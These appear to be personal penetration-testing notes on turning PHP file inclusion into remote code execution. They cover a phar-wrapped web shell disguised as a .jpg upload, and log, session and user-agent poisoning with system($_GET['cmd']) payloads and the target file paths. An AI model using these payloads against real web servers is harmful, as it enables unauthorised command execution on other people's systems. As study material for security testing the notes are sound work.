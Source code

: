 ### Phar Upload

- the below is shell.php

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

- when we run this script can be compiled into a `phar` 

```shell
 php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

- when calling using `phar://` in browser it would write <?php system($_GET["cmd"]); ?> to shell.txt
- rce via shell.txt



## Log Poisoning


- Write PHP payload in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file
- include the log file into user controlled input
- payload executed
- ==log file must have read permissions==



### PHP Session Poisoning
- web applications utilize `PHPSESSID` cookies
- details of user is stored in `/var/lib/php/sessions/` 
	- if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3` =>file is `/var/lib/php/sessions/sess_08muake8ld3cgto7i4kafkbhmh`


![[Pasted image 20240614145835.png]]

- we have control over page which is language param `en.php`
- now put language=<?php system($_GET["cmd"]);?>
_=command
![[Pasted image 20240614145807.png]]


cat /var/log/apache2/error.log 
### Server Log Poisoning

- `Apache` and `Nginx` maintain `access.log` and `error.log`
- `access.log` contain ==user-agent== ,which is user controlled
- `Apache` =>`/var/log/apache2/access.log`
- `Ngnix` => `/var/log/nginx/`
